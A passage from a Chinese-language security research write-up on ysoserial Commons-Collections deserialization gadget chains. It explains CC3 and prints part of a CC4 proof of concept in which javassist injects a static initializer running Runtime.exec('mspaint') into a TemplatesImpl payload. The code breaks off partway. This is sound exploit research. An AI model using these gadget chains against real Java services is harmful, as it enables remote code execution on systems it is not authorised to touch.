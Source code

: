 	    public static void main(String[] args)throws Exception {
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}

调用栈如下所示：

![CC3调用栈][p12]

和CC1一样，利用了AnnotationInvocationHandler，所以需要JDK Version<=JDK8u66。此外，此链中与CC2不同的是， **利用InstantiateTransformer调用TrAXFilter的构造器，触发TemplatesImpl#newTransformer()** 。

### CC4
给出POC入下所示：

	package com.pinger.javasec.ysoserial;
	
	import com.pinger.javasec.util.SerialUtil;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
	import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
	import javassist.ClassClassPath;
	import javassist.ClassPool;
	import javassist.CtClass;
	import org.apache.commons.collections4.Transformer;
	import org.apache.commons.collections4.functors.ChainedTransformer;
	import org.apache.commons.collections4.functors.ConstantTransformer;
	import org.apache.commons.collections4.functors.InstantiateTransformer;
	import org.apache.commons.collections4.comparators.TransformingComparator;
	import javax.xml.transform.Templates;
	import java.lang.reflect.Field;
	import java.util.PriorityQueue;
	
	/**
	 * @author : p1n93r
	 * @date : 2021/4/1 21:54
	 * CC4 Gadget研究
	 * 和CC2一样，就是将CC2中的InvokerTransformer换成ChainedTransformer
	 */
	public class CC4 {


​	
	    public static Object getPayload() throws Exception{
	        String abstractTransletClassPath = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
	
	        // 使用javassist生成一个恶意的类
	        ClassPool classPool = ClassPool.getDefault();
	        classPool.insertClassPath(new ClassClassPath(CC2.Placeholder.class));
	        classPool.insertClassPath(new ClassClassPath(Class.forName(abstractTransletClassPath)));
	
	        CtClass placeholder = classPool.get(CC2.Placeholder.class.getName());
	        placeholder.setSuperclass(classPool.get(Class.forName(abstractTransletClassPath).getName()));
	        // 这里insertBefore还是After都一样，反正都是在静态初始化块里写代码
	        placeholder.makeClassInitializer().insertBefore("java.lang.Runtime.getRuntime().exec(\"mspaint\");");
	        placeholder.setName("EvalClass");
	        // 得到恶意类的字节码
	        byte[] evalByte = placeholder.toBytecode();
	